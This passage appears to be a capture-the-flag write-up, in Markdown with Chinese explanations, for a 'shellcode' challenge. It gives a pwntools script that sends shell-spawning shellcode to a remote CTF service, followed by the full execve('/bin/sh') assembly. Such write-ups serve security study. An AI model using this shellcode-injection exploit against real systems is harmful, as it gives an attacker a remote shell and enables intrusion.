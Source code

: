 
### Result:
<img width="577" height="420" alt="image" src="https://github.com/user-attachments/assets/f4a97044-fdca-4a4a-9538-787f6687ba99" />

<img width="577" height="199" alt="image" src="https://github.com/user-attachments/assets/6bc97a9b-b46a-4d81-bfab-8649e6ad1403" />


## shellcode

### Description:
<img width="477" height="391" alt="image" src="https://github.com/user-attachments/assets/ad88801e-7842-4fd5-9bd5-d0b5c3a4d410" />

### Sol:
從程式碼可以看到在func拿到buf的記憶體位址後會直接執行，因此不用特別找能夠return的address只需要將shellcode注入到此buffer即可。

### Code:
```
from pwn import *
context.arch = 'amd64'

p = remote('ctf.adl.tw', 10002)

shellcode = shellcraft.amd64.linux.sh()
p.send(asm(shellcode))

p.interactive()
p.close()
```
<img width="375" height="188" alt="image" src="https://github.com/user-attachments/assets/3bdfe5c6-9c11-486e-958f-7e405f4440d7" />

* shellcraft.amd64.linux.sh(): pwnlib中提供可以執行bash的function
* asm(): pwnlib中提供可以組譯與反組譯的function。
::: spoiler 關於 shellcraft.amd64.linux.sh()與asm()
```
# shellcraft.amd64.linux.sh()
"    
/* execve(path='/bin///sh', argv=['sh'], envp=0) */\n    
/* push b'/bin///sh\\x00' */\n    
push 0x68\n    
mov rax, 0x732f2f2f6e69622f\n    
push rax\n    
mov rdi, rsp\n    
/* push argument array ['sh\\x00'] */\n
/* push b'sh\\x00' */\n    
push 0x1010101 ^ 0x6873\n    
xor dword ptr [rsp], 0x1010101\n    
xor esi, esi /* 0 */\n    
push rsi /* null terminate */\n    
push 8\n    
pop rsi\n    
add rsi, rsp\n    
push rsi 
/* 'sh\\x00' */\n    
mov rsi, rsp\n    
xor edx, edx 
/* 0 */\n    
/* call execve() */\n    
push SYS_execve 
/* 0x3b */\n    
pop rax\n    
syscall\n
```